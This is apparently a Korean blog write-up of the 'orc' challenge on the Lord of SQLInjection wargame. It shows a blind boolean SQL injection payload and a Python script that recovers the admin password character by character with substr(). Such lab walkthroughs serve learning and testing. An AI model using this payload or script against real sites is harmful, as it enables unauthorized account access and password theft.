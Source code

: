 ```yaml
---
title: "[ Lord of SQLInjection ] orc"
date: 2023-03-24T06:17:41.258Z
categories: ['Wargame', 'Lord of SQLInjection']
tags: ["los","web"]
---
```


![](/images/f03c6ebd-3c29-464b-8cde-40ac32e46a6c-image.png)

<br>
<br>

### **문제 분석**
---

1. 입력한 pw값과 실제 pw가 일치해야 문제를 해결할 수 있다.
2. 특별한 필터링은 없다.

<br>
<br>

### **문제 풀이**
---

pw가 올바른지 검사하는 부분이 존재한다. 따라서 단순히 우회하여 admin계정을 탈취하는 것이 아니라 정확한 pw를 알아내야 한다.

<br>

![](/images/e676ad12-46cd-4447-ab63-9ab84aa0ebf8-image.png)

```sql
?pw=aaa' or id='admin' and length(pw) = 8%23
```

length함수를 이용하면 pw의 길이를 찾을 수 있다.
length가 8일 때 "Hello admin"이 출력된 것을 보아 pw의 길이는 8이다.

<br>

길이를 구하면 이제 한 글자씩 비교하면서 pw를 구할 수 있다.
다음과 같은 함수를 사용할 수 있다.

>
* substr()
* substring()
* mid
* left
* right

<br>

직접 하나씩 입력해도 되지만 시간이 오래 걸리므로 자동화 코드를 작성하면 편하게 pw를 구할 수 있다.

```python
import requests

cookie = {'PHPSESSID': '사용자세션'}
address = 'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
string = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'

answer = ''

for i in range(1,9):
    for j in string:
        url = f"{address}?pw=' or id='admin' and substr(pw,{i},1) = '{j}'%23"
        res = requests.get(url, cookies=cookie)
        print(j)
        if "Hello admin" in res.text:
            answer += j
            print(f'[+] Find : {answer}')
            break
```
![](/images/51cb95b9-4d68-4170-8cf9-e2fa9c524dcb-image.png)

<br>

구한 pw를 입력하면 문제를 해결할 수 있다.

![](/images/c0367ece-bd03-46ce-9c2b-fafee369cc1f-image.png)


